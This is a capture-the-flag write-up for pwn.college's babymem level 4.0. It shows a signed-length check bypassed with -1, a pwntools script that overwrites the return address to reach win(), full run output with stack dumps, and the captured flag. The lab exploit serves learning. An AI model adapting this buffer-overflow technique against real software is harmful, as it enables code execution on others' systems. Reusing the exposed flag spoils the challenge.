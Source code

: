 # Level 4.0

Opened the challenge and found this key point:
`In this level, there is no "win" variable.
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffc7379da28, 56 bytes after the start of your input buffer.
That means that you will need to input at least 64 bytes (36 to fill the buffer,
20 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).`

After passing a random payload initially I found this:

`This challenge is more careful: it will check to make sure you
don't want to provide so much data that the input buffer will
overflow. But recall twos compliment, look at how the check is
implemented, and try to beat it!`

The biggest hint lies in 2's compliment. Our input payload must be such that it's 2's complement should be large enough value.

Then I came across this useful article : https://stackoverflow.com/questions/21532164/how-can-1111-1111-be-the-two-s-complement-representation-of-1#:~:text=1111%201111%20is%20the%20representation%20of%20%2D1%20in%20two's%20complement.&text=The%20%22one%22%20at%20the%20beginning,is%20the%20%22carry%20bit%22.

By sending -1 as the input payload, I can increase the size to `1111 1111` which is pretty large value.

Also we don't know the address of win here, so I used gdb to find it out:

![alt text](./Images/4.0.png)

Based on this knowledge, I created the following script:

```py 
from pwn import *

p = process('/challenge/babymem-level-4-0')
p.sendline(b"-1")
payload = b"a"*56 + b"\xd2\x22\x40\x00"
p.send(payload)
p.interactive()
```


```
hacker@memory-errors~level4-0:~$ python3 script2.py
[+] Starting local process '/challenge/babymem-level-4-0': pid 110
[*] Switching to interactive mode
[*] Process '/challenge/babymem-level-4-0' stopped with exit code -11 (SIGSEGV) (pid 110)
###
### Welcome to /challenge/babymem-level-4-0!
###

The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffef5153400 (rsp+0x0000) | 40 65 40 d2 8a 7e 00 00 | 0x00007e8ad2406540 |
| 0x00007ffef5153408 (rsp+0x0008) | 98 45 15 f5 fe 7f 00 00 | 0x00007ffef5154598 |
| 0x00007ffef5153410 (rsp+0x0010) | 88 45 15 f5 fe 7f 00 00 | 0x00007ffef5154588 |
| 0x00007ffef5153418 (rsp+0x0018) | 93 3e 2a d2 01 00 00 00 | 0x00000001d22a3e93 |
| 0x00007ffef5153420 (rsp+0x0020) | a0 06 40 d2 8a 7e 00 00 | 0x00007e8ad24006a0 |
| 0x00007ffef5153428 (rsp+0x0028) | 0a 00 00 00 00 00 00 00 | 0x000000000000000a |
| 0x00007ffef5153430 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffef5153438 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffef5153440 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffef5153448 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffef5153450 (rsp+0x0050) | 00 00 00 00 fe 7f 00 00 | 0x00007ffe00000000 |
| 0x00007ffef5153458 (rsp+0x0058) | 30 34 15 f5 fe 7f 00 00 | 0x00007ffef5153430 |
| 0x00007ffef5153460 (rsp+0x0060) | 90 44 15 f5 fe 7f 00 00 | 0x00007ffef5154490 |
| 0x00007ffef5153468 (rsp+0x0068) | 4e 2a 40 00 00 00 00 00 | 0x0000000000402a4e |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7ffef5153400, and our base pointer points to 0x7ffef5153460.
This means that we have (decimal) 14 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 112 bytes.
The input buffer begins at 0x7ffef5153430, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 36 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is no "win" variable.
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffef5153468, 56 bytes after the start of your input buffer.
That means that you will need to input at least 64 bytes (36 to fill the buffer,
20 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

We have disabled the following standard memory corruption mitigations for this challenge:
- the canary is disabled, otherwise you would corrupt it before
overwriting the return address, and the program would abort.
- the binary is *not* position independent. This means that it will be
located at the same spot every time it is run, which means that by
analyzing the binary (using objdump or reading this output), you can
know the exact value that you need to overwrite the return address with.

Payload size: This challenge is more careful: it will check to make sure you
don't want to provide so much data that the input buffer will
overflow. But recall twos compliment, look at how the check is
implemented, and try to beat it!
You made it past the check! Because the read() call will interpret
your size differently than the check above, the resulting read will
be unstable and might fail. You will likely have to try this several
times before your input is actually read.
You have chosen to send -1 bytes of input!
This will allow you to write from 0x7ffef5153430 (the start of the input buffer)
right up to (but not including) 0x7ffef515342f (which is -37 bytes beyond the end of the buffer).
Of these, you will overwrite -57 bytes into the return address.
If that number is greater than 8, you will overwrite the entire return address.

You will want to overwrite the return value from challenge()
(located at 0x7ffef5153468, 56 bytes past the start of the input buffer)
with 0x4022d2, which is the address of the win() function.
This will cause challenge() to return directly into the win() function,
which will in turn give you the flag.
Keep in mind that you will need to write the address of the win() function
in little-endian (bytes backwards) so that it is interpreted properly.

Send your payload (up to -1 bytes)!
You sent 60 bytes!
Let's see what happened with the stack:

+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffef5153400 (rsp+0x0000) | 40 65 40 d2 8a 7e 00 00 | 0x00007e8ad2406540 |
| 0x00007ffef5153408 (rsp+0x0008) | 98 45 15 f5 fe 7f 00 00 | 0x00007ffef5154598 |
| 0x00007ffef5153410 (rsp+0x0010) | 88 45 15 f5 fe 7f 00 00 | 0x00007ffef5154588 |
| 0x00007ffef5153418 (rsp+0x0018) | 93 3e 2a d2 01 00 00 00 | 0x00000001d22a3e93 |
| 0x00007ffef5153420 (rsp+0x0020) | a0 06 40 d2 8a 7e 00 00 | 0x00007e8ad24006a0 |
| 0x00007ffef5153428 (rsp+0x0028) | 0a 00 00 00 ff ff ff ff | 0xffffffff0000000a |
| 0x00007ffef5153430 (rsp+0x0030) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153438 (rsp+0x0038) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153440 (rsp+0x0040) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153448 (rsp+0x0048) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153450 (rsp+0x0050) | 61 61 61 61 3c 00 00 00 | 0x0000003c61616161 |
| 0x00007ffef5153458 (rsp+0x0058) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153460 (rsp+0x0060) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153468 (rsp+0x0068) | d2 22 40 00 00 00 00 00 | 0x00000000004022d2 |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x6161616161616161
- the saved frame pointer (of main) is at 0x7ffef5153460
- the saved return address (previously to main) is at 0x7ffef5153468
- the saved return address is now pointing to 0x4022d2.
- the address of win() is 0x4022d2.

If you have managed to overwrite the return address with the correct value,
challenge() will jump straight to win() when it returns.
Let's try it now!

Goodbye!
You win! Here is your flag:
pwn.college{so4JlTYYUvtdjokLz64oi8YkWfo.0VN5IDLzITO0czW}
```

## Flag

`pwn.college{so4JlTYYUvtdjokLz64oi8YkWfo.0VN5IDLzITO0czW}`

## References

https://stackoverflow.com/questions/21532164/how-can-1111-1111-be-the-two-s-complement-representation-of-1#:~:text=1111%201111%20is%20the%20representation%20of%20%2D1%20in%20two's%20complement.&text=The%20%22one%22%20at%20the%20beginning,is%20the%20%22carry%20bit%22.